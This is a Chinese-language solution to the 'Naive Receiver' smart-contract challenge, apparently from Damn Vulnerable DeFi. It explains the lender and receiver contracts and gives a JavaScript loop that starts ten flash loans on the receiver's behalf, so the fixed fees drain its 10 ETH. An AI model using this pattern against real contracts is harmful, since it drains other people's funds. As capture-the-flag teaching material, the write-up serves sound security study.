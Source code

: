 # Solution
## Background
FlashLoanReceiver实现了IERC3156FlashBorrower协议，定义了`inFlashLoan`方法，可以触发闪电贷作为回调

NaiveReceiverLenderPool实现了IERC3156FlashLender接口，支持支持闪电贷

测试脚本首先部署了NaiveReceiverLenderPool，并向合约转账`ETHER_IN_POOL (1000eth)`，均可用于闪电贷，见`maxFlashLoan`方法
```solidity
    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }
```

再部署FlashLoanReceiver合约，并向该合约转账`ETHER_IN_RECEIVER (10eth)`

如果直接调用FlashLoanReceiver的`onFlashLoan`方法会revert，原因在于方法中校验了caller
```solidity
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
```

在执行待填写代码之后，需要使得FlashLoanReceiver合约的余额为0，NaiveReceiverLenderPool合约的余额为:1000+10 eth

由于每次执行闪电贷都需要手续费`FIXED_FEE (1 eth)` 因此可以循环10次执行闪电贷，即可把FlashLoanReceiver合约的余额变为0

## code
```javascript
        for (i=0;i<10;i++){
            await pool.connect(player).flashLoan(receiver.address, "0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE",1,"0x")
        }
```